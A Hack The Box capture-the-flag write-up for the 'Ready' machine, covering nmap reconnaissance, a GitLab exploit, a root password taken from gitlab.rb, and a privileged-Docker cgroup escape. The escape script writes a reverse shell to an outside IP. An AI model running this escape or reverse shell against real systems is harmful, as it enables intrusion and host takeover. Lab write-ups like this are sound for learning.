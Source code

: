 # Box 



![image-20210317135718348](img/image-20210317135718348.png)

https://www.hackthebox.eu/home/machines/profile/304

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.220 10.10.10.220
```

![image-20210316172716303](img/image-20210316172716303.png)

Let's go to the website, we have gitlab website that we can register : 

![image-20210317140011906](img/image-20210317140011906.png)

I foud the foothold quickly with the version : 

![image-20210317142128618](img/image-20210317142128618.png)

## Exploitation

This is the exploit I found  :

https://www.exploit-db.com/exploits/49334

![image-20210317142206628](img/image-20210317142206628.png)

## Post-Exploitation

### User

The group `git` can read the user.txt file.

![image-20210317151720576](img/image-20210317151720576.png)

### Root

I found a password in the `gitlab.rb` file in the `/opt/backup` folder

![image-20210317152713769](img/image-20210317152713769.png)

it worked for root so we have a login :

```
root:wW59U!ZKMbG9+*#h
```

Unfortunaly there is no root.txt in the `/root` folder because we are in a docker container. We have to escape.

![image-20210317152855485](img/image-20210317152855485.png)

In the previous folder there is anothing interesting file `docker-compose.yml`: 

![image-20210317154625283](img/image-20210317154625283.png)

In this file there is one particular interesting line 

```bash
 privileged: true
```

I've read  in the past  an exploit about privileged docker that can execute command on the host which you can find here : 

https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1

Modify the script to get a reverse shell : 

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.17/1234 <&1' > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

![image-20210317154911429](img/image-20210317154911429.png)

Rooted.

